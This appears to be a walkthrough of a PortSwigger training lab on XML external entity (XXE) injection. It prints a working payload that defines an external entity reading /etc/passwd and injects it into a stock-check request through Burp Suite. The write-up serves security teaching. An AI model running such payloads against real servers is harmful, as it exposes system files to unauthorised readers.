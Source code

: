 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4fadad00-d4ca-40a9-b155-e0e5c619857c)

#### Exploiting XXE to retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a **DOCTYPE element that defines an external entity** containing the path to the file.
- **Edit a data value in the XML that is returned in the application's response**, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
## Solution :

> Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5046ff34-f5bd-447e-97d5-8fb249ab84ac)

Send the request to repeater.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/436ace3c-d39c-4662-80c1-7e21ef564454)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0cfcf7fb-77c2-4f6a-a90e-c4100a510278)


Replace the productId number with a reference to the external entity: 

```xml
&xxe;
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d4a651d7-527a-415c-9bac-d7a8eada6f56)

The response should contain `"Invalid product ID:"` followed by the contents of the `/etc/passwd` file.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/176b5c13-00ab-4362-ab13-d3259d9a89e9)

Lab Solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f018169b-519c-4e05-826a-82cba31cb52a)
